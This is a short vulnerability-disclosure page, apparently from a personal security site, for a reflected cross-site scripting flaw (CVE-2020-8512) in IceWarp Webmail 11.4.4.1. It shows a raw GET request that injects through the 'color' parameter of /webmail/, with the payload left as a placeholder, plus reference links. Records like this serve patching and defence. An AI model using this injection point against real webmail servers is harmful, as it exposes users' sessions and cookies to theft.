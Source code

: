 ```yaml
---
title: "IceWarp 11.4.4.1 Cross-Site Scripting - CVE-2020-8512"
collection: exploits
excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2020  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ <br>
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**GET REQUEST :**

GET /webmail/?color=**XSS PAYLOAD** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable Page :**
/webmail/<br> 
**Vulnerable Parameter :**
color

<ul>
<li>Exploit DB : <a href="https://www.exploit-db.com/exploits/47988">47988</a></li>
<li>National Vulnerability Database: <a href="https://nvd.nist.gov/vuln/detail/CVE-2020-8512">https://nvd.nist.gov/vuln/detail/CVE-2020-8512</a></li>
<li>IceWarp WebMail XSS Exploitation: <a href="https://www.youtube.com/watch?v=WJo3-dn3wy4">https://www.youtube.com/watch?v=WJo3-dn3wy4</a></li>
<li>0day.today Record: <a href="https://0day.today/exploit/description/33886">https://0day.today/exploit/description/33886</a></li>
<li>Online Scanner for CVE-2020-8512: <a href="https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512">https://securityforeveryone.com/tools/icewarp-webmail-xss-cve-2020-8512</a></li>
<ul>

